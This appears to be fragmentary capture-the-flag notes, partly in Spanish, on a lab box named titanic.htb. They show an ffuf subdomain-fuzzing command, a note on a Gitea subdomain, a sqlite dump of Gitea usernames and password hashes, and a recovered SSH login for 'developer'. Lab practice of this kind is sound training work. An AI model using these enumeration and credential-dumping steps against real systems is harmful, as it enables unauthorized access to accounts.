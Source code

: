 ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt \
-u http://FUZZ.titanic.htb \  
-H "Host: FUZZ.titanic.htb" \  
-t 200 -fs 4242  







![[Pasted image 20250519124221.png]]
Subdominio Gitea 




sqlite> SELECT name, passwd FROM user;
administrator|cba20ccf927d3ad0567b68161732d3fbca098ce886bbc923b4062a3960d459c08d2dfc063b2406ac9207c980c47c5d017136
developer|e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56
00000000|f24e471d94691876adc79fff644f0db3eb2a034fd805bb5cde994f064fdc7657ba74b926ad9d76c7c400e0d937ccc00066da
ramon|2b1a4dac973de07aafc71db405072abb656045d125a07b4b735e0015e7c6d81c2424b149e13e0ea59611c2427e2848f5c64b
yasscoder|9228f957f72e3df17440bf49b41406a9e74a79b6f9962b9f192570f1cb3074feeb6eaf5c06461ea77f5a4c1f5c0fe99e6e7c
sqlite> 

ramonpruebahash
ramon123

ssh developer:25282528